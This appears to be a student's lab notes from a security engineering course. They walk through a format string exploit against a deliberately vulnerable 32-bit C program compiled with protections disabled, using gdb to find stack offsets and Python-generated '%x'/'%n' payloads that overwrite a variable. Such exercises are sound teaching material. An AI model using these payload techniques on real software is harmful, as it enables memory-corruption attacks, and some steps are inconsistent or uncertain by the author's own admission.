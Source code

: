 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g
```
or (Im not sure this worked for me, this doesn't work for me now so better to use the above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 16
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x %esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. Try and fail
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Output:![Alt text](image-9.png)
14. Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)


##Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



